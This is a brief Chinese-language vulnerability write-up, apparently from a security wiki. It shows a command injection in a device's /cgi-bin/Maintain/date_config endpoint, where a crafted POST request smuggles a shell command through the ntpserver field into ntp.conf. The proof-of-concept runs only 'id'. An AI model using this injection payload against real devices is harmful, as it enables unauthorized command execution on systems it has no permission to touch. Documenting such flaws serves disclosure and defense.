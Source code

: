 ![img](/assets/PeiQi-Wiki/img/1628932309063-96a9127b-56b3-4dd7-bb51-09cf825c01bd.png)

可以发现当 ntp.conf 文件中写入其他参数就会造成命令执行，思路如下

![img](/assets/PeiQi-Wiki/img/1628932750956-a0ee7056-7ccd-4cb3-a4df-9a5ad61b7c00.png)

构造请求

```php
POST /cgi-bin/Maintain/date_config

ntpserver=0.0.0.0;id&year=2021&month=08&day=14&hour=17&minute=04&second=50&tz=Asiz&bcy=Shanghai&ifname=fxp1
```

![img](/assets/PeiQi-Wiki/img/1628933229066-f8d6c653-898f-4ca4-811e-6d9ee9f9e528.png)

**成功写入 ntp.conf 文件为 0.0.0.0;id, 再次访问该页面就可以获取命令执行结果**

![img](/assets/PeiQi-Wiki/img/1628933214110-726666cf-d57e-4ccc-91e2-72a5d93bb27e.png)



交互处可进行命令拼接造成注入

![img](/assets/PeiQi-Wiki/img/1628866823919-229f07f4-6805-40ce-bc7b-46c33387e40a.png)